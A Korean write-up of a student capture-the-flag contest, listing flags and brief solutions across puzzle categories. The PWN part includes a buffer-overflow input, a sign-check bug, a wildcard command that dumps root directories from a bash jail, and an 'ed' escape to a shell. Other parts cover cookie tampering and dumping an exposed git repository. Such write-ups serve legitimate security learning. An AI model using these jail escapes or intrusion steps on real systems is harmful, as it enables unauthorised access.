# WriteUp

- [x] MISC 
- [x] PWN
- [ ] REV
- [ ] WEB
- [x] CHICKEN
- [x] CRYPTO
- [x] GOOGLING

리버싱이랑 웹은 롸업을 못 썼다.

# MISC

## 여기 짱이 누구야? 1
`STEALTH{류성민/조민근/한민석}`

## 여기 짱이 누구야? 2
`TRUST{이동준/조정훈}`

## 포인트가 필요하시나요?


## STACK
```
$ nc trustctf.com 27733
Say the register what it point Base of STACK!
EBP
FLAG{You_know_STACK???}
```

## Black Out


그림판 같은 툴로 배경을 다른 색으로 채워주면 된다.

## 이동준의 수학 교실
```py
from pwn import *

r = remote('trustctf.com', 32283)
print r.recvuntil('flag')

while 1:
    line = r.recv().strip().replace('=', '')
    print line
    ans = eval(line)
    log.info(ans)
    r.sendline(str(ans))

# FLAG{1t_1s_h@rd_m1sc_gr1n}
```

## 포스터


## CHICKEN!!
```py
import base64
a = base64.b64decode('iVBORw0KGgoAAAANSUhEUgAABRQAAALaCAYAA (...) ABAo9AAqMb/B+GOCFsVIKwmAAAAAElFTkSuQmCC')

f = open('p.png', 'wb')
f.write(a)
```

사이트에 접속하면 base64로 인코딩된 엄청난 길이의 문자열이 있는데 이걸 디코딩해서 png 파일로 출력하면 된다.



## Hard MIC CHECK!
base85이다. 

`FLAG{W3lc0m3_T0_7RU5734L7H_C7F_4G41N!}`

## Lost Flag
오른쪽에 흰색 글씨로 플래그가 있다.

`FLAG{H2110_2very_0n2}`

## ZIPinZIP
binwalk를 이용해서 풀었던 걸로 기억한다.

`FLAG{ziP_bEhiNd_Zip_u_found_it?}`

## edocesrom
모스코드 wav 파일을 올리면 디코딩해주는 Audio Decoder 서비스를 이용하면 된다.

`FLAG{YOU_CAN'T_HEAR_WITHOUT_YOUR_COMPUTER_HAHA}`

## Monkey!
Ook 컴파일러를 이용한다.

`FLAG{BRAIN_STEALTH}`

## Hello, PNG!


QR코드를 위처럼 복구하고 스캔하면 `RkxBR3tRcl9jMGQyX3MxbVBpZV9ncjFuX1hkfQ==`라는 base64 인코딩된 텍스트가 나온다.

`FLAG{Qr_c0d2_s1mPie_gr1n_Xd}`

## 자물쇠


## 끄투코리아
와이어샤크가 없어서 그냥...



## Mic Check!
`FLAG{Welcome_to_TRUSTEALTHCTF!!!!}`

## Open chatting!!
오픈채팅 공지에 있다.

`FLAG{He110_K@ka0_t@lk!!}`

# PWN

## Connect NC!
```
$ nc trustctf.com 37772
Oh you can connect thru nc :D
Here is your flag
FLAG{0H_Y0U_KN0W_NC!!!}
```

## Do you know BOF?
```
$ nc trustctf.com 29944
Welcome to Trustealth CTF! What's your name?
>>> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wow... THAT is BOF..
FLAG{that_is_the_basic_of_BOF:D}
```

## Dimigo Life Simulator
```
nc trustctf.com 39482
~~ Welcome to Dimigo Life Simulator version 0.3 ~~

Your current money : 10000

+----------------------------------+
| 1. Go market and buy ice creams  |
| 2. Sleep in the classroom        |
| 3. Study hard                    |
| 4. Run away from school          |
| 5. Have a Party with friends     |
+----------------------------------+
>>> 1

Welcome to Dimi Market! You can buy some icecream here :)
Price : 1000 won
How many ice creams do you want?
>>> -100000000
Here is your ice cream(s)!

Your current money : 1215762192

+----------------------------------+
| 1. Go market and buy ice creams  |
| 2. Sleep in the classroom        |
| 3. Study hard                    |
| 4. Run away from school          |
| 5. Have a Party with friends     |
+----------------------------------+
>>> 5
Wanna have some party time??? (Y / N)
>>> Y
Ok! Party Time :D
FLAG{easy_math_logic_bug_hehe}read(net): Connection reset by peer
```

부호를 체크하지 않는다.

## Bash Jail
https://github.com/InfoSecIITR/write-ups/tree/master/2016/33c3-ctf-2016/misc/hohoho

구글링을 하다가 결국 솔루션을 찾았다.

```
$ nc trustctf.com 27783
$ /???/??? /???? ; #
ELF>?I@@8?@8	@@@@@@?88@8@@@d?d? ??a?h ??a?a?TT@T@DDP?td????A?Q?tdR?td??a?a/lib64/ld-linux-x86-64.so.2GNU GNU?S??h?^H??h???K?r??H
    (...)
/bin/cat: /var/tmp: Is a directory
/bin/cat: /boot: Is a directory
FLAG{how_did_u_get_shell?_wildcard_or_$SHELL}
/bin/cat: /home: Is a directory
/bin/cat: /proc: Is a directory
/bin/cat: /root: Permission denied
/bin/cat: /sbin: Is a directory
$ 
```

## Bash Jail Revenge
```
$ nc trustctf.com 28442
$ ed
!/bin/sh
cat flag
FLAG{mUCh_m0r3_s1mpl3_th4n_y0u_th0ugh7}
```

`ed`에서 명령어를 실행할 수 있다.

# REV

# WEB

## 오디있징 
```html
<h2>어.. 없네</h2>
<!--FLAG{Where_1s_f1ag?!?!!} -->
</body>
</html>
```

아래 주석에 플래그가 있다.

## 질문 뒤에 플래그 있어요
```js
> var a=['woIew4EKw4QqworDpnMcbAbDhVzDjMOWVMOFw6QVVHMH','UE/DosOV'];(function(c,d){var e=function(f){while(--f){c['push'](c['shift']());}};e(++d);}(a,0x19b));var b=function(c,d){c=c-0x0;var e=a[c];if(b['fJUPaK']===undefined){(function(){var f;try{var g=Function('return\x20(function()\x20'+'{}.constructor(\x22return\x20this\x22)(\x20)'+');');f=g();}catch(h){f=window;}var i='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';f['atob']||(f['atob']=function(j){var k=String(j)['replace'](/=+$/,'');for(var l=0x0,m,n,o=0x0,p='';n=k['charAt'](o++);~n&&(m=l%0x4?m*0x40+n:n,l++%0x4)?p+=String['fromCharCode'](0xff&m>>(-0x2*l&0x6)):0x0){n=i['indexOf'](n);}return p;});}());var q=function(r,d){var t=[],u=0x0,v,w='',x='';r=atob(r);for(var y=0x0,z=r['length'];y<z;y++){x+='%'+('00'+r['charCodeAt'](y)['toString'](0x10))['slice'](-0x2);}r=decodeURIComponent(x);for(var A=0x0;A<0x100;A++){t[A]=A;}for(A=0x0;A<0x100;A++){u=(u+t[A]+d['charCodeAt'](A%d['length']))%0x100;v=t[A];t[A]=t[u];t[u]=v;}A=0x0;u=0x0;for(var B=0x0;B<r['length'];B++){A=(A+0x1)%0x100;u=(u+t[A])%0x100;v=t[A];t[A]=t[u];t[u]=v;w+=String['fromCharCode'](r['charCodeAt'](B)^t[(t[A]+t[u])%0x100]);}return w;};b['LIUFLv']=q;b['ZwDIhY']={};b['fJUPaK']=!![];}var C=b['ZwDIhY'][c];if(C===undefined){if(b['uqxykW']===undefined){b['uqxykW']=!![];}e=b['LIUFLv'](e,d);b['ZwDIhY'][c]=e;}else{e=C;}return e;};(function(){window[b('0x0','c*p*')]=b('0x1','0V!S');}()); // 질문 뒤에 이런 코드가 있다.
undefined
> b('0x0','c*p*')
"flag"
> b('0x1','0V!S')
"FLAG"
```

`FLAG`

## 광클
`count` 쿠키의 값을 100000으로 해두면 플래그가 나온다.
`FLAG{l0,o0OT1mes_c0ok1e}`

# CHICKEN

## Chicken
뿌링클이 그렇게 맛있다면서요?

http://test.c2w2m2.com/chick/ 에 가면 https://github.com/arthaud/git-dumper 링크가 나옴

`git-dumper`를 이용해서 사이트의 git 레포를 다운받고 분석해 보면

```yaml
[remote "origin"]
	url = https://github.com/c2w2/chickrun.git
	fetch = +refs/heads/*:refs/remotes/origin/*
```

해당 origin 주소로 가보면



플래그 앞부분이 있다. 해당 레포를 분석해 봐도 다른 부분은 전혀 없었다. 



`c2w2` 사용자(누군가의 부계정인 듯 하다)의 프로필을 살펴보니 `@mynameischick1`과 이상한 숫자 `493283847281394`가 있었다. chickrun의 README.md에 `트위터 재밌땅`이 있었으니 아마 트위터가 아닐까 하고 찾아보니...



이런 계정이 있었다.



시간 순으로 밑에서부터 살펴봤다. 메모를 어디에 업로드한 게시글의 아이디인 것 같다.



처음에는 pastebin인 줄 알았는데 아니였고, DIMICTF 때처럼 imgur가 아닐까 해서 imgur를 살펴봤다.



다시 트위터 페이지로 돌아가 올려 보면 이런 QR 코드 gif 이미지를 올려 두었는데 심볼이 없어졌다 나타났다 한다. mp4로 다운로드 받고 잘 멈춰서 스캔하면 `Flag3 : y_m1sc_p`가 나온다.



트위터 페이지에 등록된 URL을 가면 이렇게 뜨는데 이때 authkey가 무엇인지 도저히 모르겠어서 힘들었다.
그때 깃허브 페이지에 있었던 숫자가 생각났다.





넣으니까 플래그의 마지막 부분이 나왔다. 



답을 인증하고 치킨을 달라고 했는데 교환권을 찾아오라고 하셨다.



구글 계정에 교환권이 있나 보다.



트위터에 등록된 구글 계정 이메일 `mynameischick321@gmail.com`과 아직까지 모은 플래그 `FLAG{th1s_15_e4sy_m1sc_pr0b_fun?:XD}`를 비밀번호로 로그인하고 구글 드라이브를 살펴보면 교환권을 찾을 수 있었다.



뿌링클이 그렇게 맛있다고 해서 얻었다. 1.25리터 콜라까지 챙겨주시는 세심함에 감동...

# CRYPTO

## 46esab
`FLAG{base64_so_common_in_ctf-_-}`

## I came, I saw, I conquered
시저 암호다.

`FLAG{Veni, Vidi, Vici}`

## Easy Crypto
Vigenère Cipher다.

`FLAG{Now_y0u_KnoW_VIGENERE_Ciph3r!!!!}`

## 아빠 힘내세요
```py
s = 'abaaabba abaabbaa abaaaaab abaaabbb abbbbabb abbaaaab abbaaaba abbaaaba abbaaaab ababbbbb abbabaaa abbabaab abbabbab abbabbba abbaaaab abbaabab abbbaabb abbaabab abbbbaab abbabbbb abbbbbab'
s = s.replace('a', '0').replace('b', '1').split()
print(s)

print (''.join([chr(int(i, 2)) for i in s]))
# FLAG{abba_himnaeseyo}
```

## 네모
`FRESHMANBCDGIKLOPQTUVWXYZ`으로 4개 그리드를 만들어서 four-squares-cipher로 풀면 된다.

`FLAG{trustealth}`

## 네모네모네모네모


# GOOGLING

## internet protocol
`FLAG{IPv6}`

## more IP!!
`FLAG{subnetting}`

## overover
`FLAG{lord_of_buffer_overflow}`

## dictionary
`FLAG{www.dimipedia.net}`

## sharing
`FLAG{P2P}`

## queryquery
아마?

`FLAG{lord_of_sql_injection}`

## 오랑우탄
`FLAG{ook}`
